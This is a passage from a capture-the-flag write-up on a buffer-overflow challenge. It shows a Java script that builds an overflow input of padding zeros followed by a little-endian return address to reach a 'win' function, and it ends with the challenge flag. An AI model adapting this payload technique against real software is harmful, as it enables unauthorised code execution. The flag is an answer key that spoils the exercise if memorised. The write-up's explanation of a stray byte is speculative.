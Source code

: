 It outputs `Failed to open flag file`, which means we successfully got into win.

Now it's just a matter of creating a script that can craft such an input for any address, not just 0x5555555548aa.

This is the script I used:

```java
import java.io.*;
import java.util.*;

public class Main {
    public static void main(String[] args) {
        String addr = new Scanner(System.in).next().substring(2);
        System.out.print("00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000");
        for (int i = addr.length() / 2; i > 0; i--) {
            System.out.print((char) Integer.parseInt(addr.substring(i * 2 - 2, i * 2), 16));
        }
        for (int i = 8; i > addr.length() / 2; i--) {
            System.out.print((char) 0);
        }
        System.out.println();
    }
}
```

I only print 119 0s as opposed to 120 because for some reason Java inserts 0xc2 between the 0s and the address, so 0xc2 is the 120th character.

Analysis of my script:
1. Get the address as a String, and remove the first 2 characters (those are 0x)
2. Print 119 0s
3. Somewhere between steps 2 and 4, a 0xc2 is inserted. I wasn't too worried about it, so I just removed a 0 from the long string of 0s.
4. Print the memory address in reverse order, by parsing converting from hex string (2 characters at a time) to integer, to character.
5. Print padding 0s at the end, if needed.
6. Print a newline

## Flag
`ctf{1ove_c411ing_r4ndom_functions_84}`
